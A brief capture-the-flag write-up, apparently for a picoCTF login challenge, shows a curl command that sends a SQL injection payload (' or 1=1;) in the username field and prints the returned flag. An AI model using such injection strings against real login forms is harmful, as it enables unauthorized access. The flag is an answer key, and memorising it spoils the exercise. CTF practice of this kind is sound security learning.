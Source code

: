 ## Objetivo
`https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751
## Solucion
yahirbalderas@Yahirs-MacBook-Pro ~ % curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=' or 1=1;&password=admin"

<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>**%**
## Notas adicionales

## Referencias